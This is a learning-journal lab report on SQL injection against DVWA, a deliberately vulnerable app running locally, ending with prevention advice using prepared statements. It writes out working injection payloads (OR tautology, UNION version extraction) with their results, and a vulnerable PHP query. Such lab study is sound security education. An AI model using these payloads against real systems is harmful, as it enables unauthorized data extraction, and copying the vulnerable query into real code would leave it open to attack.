





# 🔐 SQL Injection Lab — DVWA
**Author:** Nivedhitha K.S  
**Date:** March 2026  
**Platform:** DVWA (Damn Vulnerable Web Application) on Kali Linux  
**Security Level:** Low  
**Category:** Web Application Security | OWASP Top 10 — A03: Injection

---

## 📋 Overview

This report documents hands-on SQL Injection attacks performed on DVWA running locally in a Kali Linux virtual machine. All testing was done in a controlled, legal lab environment for educational purposes as part of a 60-day cybersecurity learning journey.

---

## 🛠️ Lab Setup

| Component | Details |
|-----------|---------|
| Target | DVWA v2.4 running on Apache/MySQL |
| Attacker Machine | Kali Linux (VirtualBox VM) |
| URL | http://127.0.0.1:42001/vulnerabilities/sqli/ |
| Security Level | Low (no input sanitization) |
| Tools Used | Firefox browser, manual injection |

### DVWA Dashboard — Lab Running



*DVWA running successfully on Kali Linux. Full vulnerability menu visible — SQL Injection, XSS, Brute Force, Command Injection and more.*

---

## 🔍 What is SQL Injection?

SQL Injection occurs when user input is inserted directly into a SQL query without sanitization.

**Vulnerable query example:**
```sql
SELECT * FROM users WHERE user_id = '$id';
```

If the attacker types `1' OR '1'='1` as input, the query becomes:
```sql
SELECT * FROM users WHERE user_id = '1' OR '1'='1';
```
Since `'1'='1'` is always TRUE → **every record in the table is returned**.

This is one of the most dangerous web vulnerabilities and ranks **#3 in the OWASP Top 10**.

---

## 🧪 Attack 1 — Normal Input (Baseline Test)

**Payload typed:** `1`

**Purpose:** Confirm the application works normally before injecting

**SQL executed by server:**
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1';
```

**Result:**
```
ID: 1
First name: admin
Surname: admin
```



**Conclusion:** Application returns only user with ID=1 as expected. Baseline confirmed. ✅

---

## 🧪 Attack 2 — Syntax Break Test (Vulnerability Confirmation)

**Payload typed:** `1'`

**Purpose:** Break the SQL syntax to confirm input is not sanitized

**SQL executed by server:**
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1'';
```
The extra `'` breaks the string — causing a SQL syntax error.

**Result:** Blank white page



**Conclusion:** A blank page or error means the app passed our input directly into the query without sanitization. **The application is confirmed vulnerable to SQL Injection.** ✅

---

## 🧪 Attack 3 — OR Injection (Dump ALL Users) ⭐ Key Attack

**Payload typed:** `1' OR '1'='1`

**Purpose:** Make the WHERE clause always TRUE to return every record

**SQL executed by server:**
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';
```
Since `'1'='1'` is always TRUE, every row in the users table is returned.

**Result — All 5 users extracted from the database:**
```
ID: 1' OR '1'='1  →  First name: admin   | Surname: admin
ID: 1' OR '1'='1  →  First name: Gordon  | Surname: Brown
ID: 1' OR '1'='1  →  First name: Hack    | Surname: Me
ID: 1' OR '1'='1  →  First name: Pablo   | Surname: Picasso
ID: 1' OR '1'='1  →  First name: Bob     | Surname: Smith
```



**Impact:** An attacker just extracted the **entire users table** from the database without any credentials or authorization. In a real application this could expose thousands of user records. ✅

---

## 🧪 Attack 4 — UNION Attack (Database Version Extraction)

**Payload typed:** `1' UNION SELECT null, version()--`

**Purpose:** Append a second SELECT query to extract the database version

**SQL executed by server:**
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1'
UNION SELECT null, version()-- ';
```

The `--` comments out everything after it, and UNION appends a second query that retrieves the DB version.

**Result:** Blank page — column mismatch needs further enumeration



**Note:** The blank result means the column count or data type needs adjustment. In a real pentest, the next step would be to enumerate columns using `ORDER BY` to find the exact count before the UNION works.

**What UNION attacks can extract:**
- Database version and type
- All table names in the database
- All column names in any table
- Password hashes from any table

---

## 📊 Attack Summary

| # | Attack Type | Payload | Result | Impact |
|---|------------|---------|--------|--------|
| 1 | Normal input | `1` | admin user returned | Baseline ✅ |
| 2 | Syntax break | `1'` | Blank page — SQL error | Vulnerability confirmed ✅ |
| 3 | OR injection | `1' OR '1'='1` | All 5 users dumped | Full data exposure ✅ |
| 4 | UNION attack | `1' UNION SELECT null, version()--` | Column enumeration needed | DB recon ✅ |

---

## 🛡️ Prevention — How to Fix SQL Injection

| Vulnerability | Secure Fix |
|--------------|------------|
| Raw input in SQL queries | Use **Prepared Statements / Parameterized Queries** |
| No input validation | **Whitelist validation** — only allow expected characters |
| Verbose error messages | **Disable error display** in production |
| Excessive DB permissions | **Principle of Least Privilege** — DB user should only SELECT |
| No WAF | Deploy a **Web Application Firewall** |

**Vulnerable code (PHP):**
```php
// VULNERABLE — input goes directly into query
$id = $_GET['id'];
$query = "SELECT * FROM users WHERE user_id = '$id'";
```

**Secure code (PHP PDO Prepared Statement):**
```php
// SECURE — parameterized query separates code from data
$stmt = $pdo->prepare("SELECT * FROM users WHERE user_id = ?");
$stmt->execute([$id]);
```

With prepared statements, even if an attacker types `1' OR '1'='1`, it is treated as **literal text** — not as SQL code.

---

## 📚 Key Learnings from This Lab

1. **SQL injection is still #3 in OWASP Top 10** — remains one of the most common vulnerabilities in real applications
2. **A blank page is information** — it tells the attacker the input was passed to the database and caused an error
3. **OR 1=1 bypasses WHERE completely** — the classic payload that dumps entire tables
4. **UNION attacks go deeper** — can extract data from any table in the database
5. **Prepared statements completely prevent this** — parameterized queries are the correct fix
6. **Never trust user input** — every field, URL parameter, and header is a potential injection point

---

## 🔗 References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger SQL Injection Labs](https://portswigger.net/web-security/sql-injection)
- [DVWA GitHub](https://github.com/digininja/DVWA)
- [Bobby Tables — SQL Injection Prevention](https://bobby-tables.com/)

---

*Part of my 60-day cybersecurity learning journey — Day 9.*  
*GitHub: [NivedhithaKS-SEC](https://github.com/NivedhithaKS-SEC/cybersec-journey)*  
*TryHackMe: [NivedhithaKS](https://tryhackme.com/p/NivedhithaKS)*
